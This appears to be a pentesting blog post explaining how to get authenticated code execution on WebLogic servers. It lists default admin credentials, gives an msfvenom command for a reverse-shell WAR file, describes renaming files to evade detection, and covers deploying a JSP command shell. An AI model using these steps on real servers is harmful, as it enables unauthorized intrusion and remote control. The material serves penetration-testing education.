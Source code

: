 ```yaml
---
layout: post
title: Authenticated RCE in Weblogic Servers
excerpt_separator: <!--more-->
---
```


Weblogic servers are popular in pentests as outdated versions have RCE vulnerabilities with public exploits. However, you can exploit them uploading WAR files as well.

<!--more-->


## Getting access to Weblogic Server

You may find a version of WebLogic Administration Console interface affected by vulnerabilities such as CVE-2020-14882, but it is not always possible to exploit them because of network or system restrictions.

Nevertheless, you can get access by obtaining admin credentials and uploading a malicious application. Some of the default credentials are:

- weblogic:Welcome1

- weblogic:weblogic

- system:weblogic

It usually runs in port 7001 but you can find it in any port.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/6.png)

## Creating WAR file

If you know there are no antivirus or EDR running in the system or you do not care about being detected, you can try uploading a WAR file generated with msfvenom using the parameter "-f war":

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > malicious.war
```

This is not the stealthiest method but we can use this file to generate a better WAR file, by decompressing it (it is like a zip file), update the files and compress it again later. The file structure is the following:

- META-INF/MANIFEST.MF
- WEB-INF/web.xml
- evxanqiqlxbhun.jsp

The only thing you should see different is the JSP file name.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/0.png)

We will change the random characters in "web.xml":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/1.png)

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/2.png)

And the JSP name to "index.jsp". If we remove the line 3 in the file, we can add any non-malicious code to test the JSP code is executed.

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/4.png)

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/5.png)

Then we create a WAR compressed file: 

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/3.png)


## Upload malicious WAR file

To upload the file and deploy the malicious application we can follow [this IBM guide](https://www.ibm.com/docs/en/control-desk/7.6.0.2?topic=scenario-deploy-application-files-oracle-weblogic-server).

In Deployments, click "Lock & Edit": 

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/7.png)

Then "Install":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/8.png)

Load the file and click Next all over again until the application is installed:

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/9.png)

Finally, click the creted application in "Deployments", and click "Start" (NOTE: here the name should be "legitimate", "WebServices" was the last application in the list, my mistake):

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/10.png)

Finally, click "Release Configuration" in the "Change Center", under the "Lock & Edit" button. Now you should be able to visit the application in "/legitimate" or the endpoint you have created (it probably has the same name as the WAR file).

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/weblogic/11.png)

Now we know JSP code is running in the server, we can create a new WAR file containing a cmdshell, such as [this one](https://gist.github.com/nikallass/5ceef8c8c02d58ca2c69a29a92d2f461) or any custom one for better OPSEC.


